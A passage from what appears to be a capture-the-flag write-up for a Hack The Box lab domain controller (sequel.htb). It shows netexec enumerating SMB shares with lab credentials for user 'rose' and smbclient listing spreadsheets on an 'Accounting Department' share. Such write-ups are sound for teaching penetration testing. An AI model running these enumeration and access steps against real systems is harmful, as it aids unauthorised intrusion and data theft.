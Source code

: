 Enumerating user shares:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec smb sequel.htb -u 'rose' -p 'KxEPkKe6R8su' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ
```

Among the standard shares, there is "Accounting Department" which appears interesting. Using `smbclient` to access:

### Discovering plaintext credentials in SMB

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ smbclient \\\\sequel.htb\\Accounting\ Department -U rose -W sequel.htb 
Password for [SEQUEL.HTB\rose]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 06:52:21 2024
  ..                                  D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 06:52:07 2024

                6367231 blocks of size 4096. 924802 blocks available
smb: \>
```

For reasons unknown, opening the files in LibreOffice resulted in bad conversions that were incomprehensible.
